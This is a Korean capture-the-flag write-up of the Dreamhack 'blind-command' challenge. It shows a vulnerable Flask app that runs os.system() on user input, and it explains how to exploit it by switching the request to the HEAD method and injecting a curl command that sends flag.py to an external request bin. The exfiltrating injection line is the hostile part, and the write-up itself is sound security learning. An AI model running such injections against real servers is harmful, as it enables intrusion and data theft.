 # [Dreamhack Wargame] blind-command.md
### [🚩blind-command](https://dreamhack.io/wargame/challenges/73/)
  <img width="1069" alt="blind command_description" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/1a0f8c65-a5c1-4d5b-b35d-258070bdd644">

<br/><br/>

## 문제 파일(app.py) 분석
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

# 인덱스 페이지
@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '') # 이용자가 전달한 cmd를 가져옴
    if not cmd: # cmd 값이 없을 경우
        return "?cmd=[cmd]"

    if request.method == 'GET': # GET 메소드로 요청 시
        '' # 아무것도 출력하지 않음
    else: # GET 메소드 외에 서버에서 허용하는 메소드로 요청 시
        os.system(cmd) # cmd의 명령을 실햄항 (command injection)
    return cmd # 화면에 cmd 입력값을 그대로 출력함

app.run(host='0.0.0.0', port=8000)
```

<br/><br/>

## 문제 풀이
### 취약점이 존재하는 코드
GET 메소드 외에 서버에서 허용하는 메소드로 cmd를 요청하면 os.system()으로 이용자의 입력값으로 받아온 cmd가 실행됨
* Reqeust를 조작하여 OPTION 메소드로 웹 서버에 요청해 서버가 허용하는 메소드를 확인하는 과정이 필요함

<br/><br/>

### 익스플로잇
1. Burp Suite를 이용해 OPTION 메소드로 Request를 전송한 결과로 받은 Response를 보면 OPTIONS, HEAD, GET이 허용됨을 확인할 수 있음
  <img width="1450" alt="OPTIONS method" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/60275a1d-39d3-4960-9645-ebdb12ac8151"><br/>
    - GET 메소드가 아니어야 하기 때문에 HEAD 메소드를 사용함

2. 외부에 있는 웹 서버로 flag.py 파일 실행 결과를 전송해야 하기 때문에 외부 웹 서버를 준비시키고, 문제 사이트의 URL에서 cmd의 값을 ```curl https://hjvreie.request.dreamhack.games/ -d "$(cat flag.py)"```으로 하고 새로고침함
  <img width="925" alt="Request Packet " src="https://github.com/augustf86/Today_I_Learn/assets/122844932/71ccd4d6-1e52-42b0-9c17-7a75fb5dbe57"><br/>
    - 외부 웹 서버로는 드림핵 툴즈 서비스의 Request Bin 기능을 이용했음
    - ```curl``` 명령어: 프로토콜들을 이용해 URL로 데이터를 전송하여 서버에 데이터를 보내거나 가져올 때 사용하기 위한 명령줄 도구 및 라이브러리
        - ```-d``` 옵션: (data) HTTP POST 요청 데이터 입력 (body 데이터를 입력함)
        - 위의 명령어는 해당 URL로 ```$(cat flag.py)```를 body 데이터에 담아 POST 메소드로 전송하라는 의미

3. 2번에서 전송된 Request는 GET 메소드로 보낸 것으로, 이 Request를 Burp Suite의 Repeater 기능에서 HEAD 메소드로 변경하여 재전송함
  <img width="1450" alt="Repeater-HEAD method" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/fa4a693f-54fc-4ec4-9112-d5489a7ca736">

4. Request Bin을 확인하면 Body에서 FLAG 확인할 수 있음
  <img width="1543" alt="blind command_result" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/6be53c4b-2240-410f-897c-45d62f0cde60">

